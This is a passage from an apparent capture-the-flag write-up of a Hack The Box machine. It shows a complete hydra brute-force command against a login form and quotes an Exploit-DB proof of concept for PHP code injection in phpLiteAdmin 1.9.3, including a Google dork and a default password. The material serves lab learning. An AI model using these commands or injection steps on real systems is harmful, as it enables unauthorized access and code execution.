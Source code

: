 I decided to use a smaller wordlist so I went with "xato-net-10-million-passwords-10000.txt" from [seclists](https://github.com/danielmiessler/SecLists). The completed command is as follows:

```
hydra -l "" -P ~/tools/SecLists/Passwords/xato-net-10-million-passwords-10000.txt 10.10.10.43 http-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect Password" -S -s 443 -t 40
```

Brute force was successful, Hydra showed the password as "password123"

![image](assets/83317621-01aa7400-a1fc-11ea-91e9-c4e3114f27f8.png)

Doing a search in searchsploit for phpliteadmin 1.9 showed 2 results. 39714 could be ruled out because it contained XSS exploits which rely on interaction from a user and it's rara that an htb box simulates interaction from an end-user.

I viewed the exploit with "searchsploit -x 24044"


```
# Exploit Title: phpliteadmin <= 1.9.3 Remote PHP Code Injection Vulnerability
# Google Dork: inurl:phpliteadmin.php (Default PW: admin)
# Date: 01/10/2013
# Exploit Author: L@usch - http://la.usch.io - http://la.usch.io/files/exploits/phpliteadmin-1.9.3.txt
# Vendor Homepage: http://code.google.com/p/phpliteadmin/
# Vendor Status: Informed
# Software Link: http://phpliteadmin.googlecode.com/files/phpliteadmin_v1-9-3.zip
# Version: 1.9.3
# Tested on: Windows and Linux

Description:

phpliteadmin.php#1784: 'Creating a New Database' => 
phpliteadmin.php#1785: 'When you create a new database, the name you entered will be appended with the appropriate file extension (.db, .db3, .sqlite, etc.) if you do not include it yourself. The database will be created in the directory you specified as the $directory variable.',

An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.

Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php

Done!
```

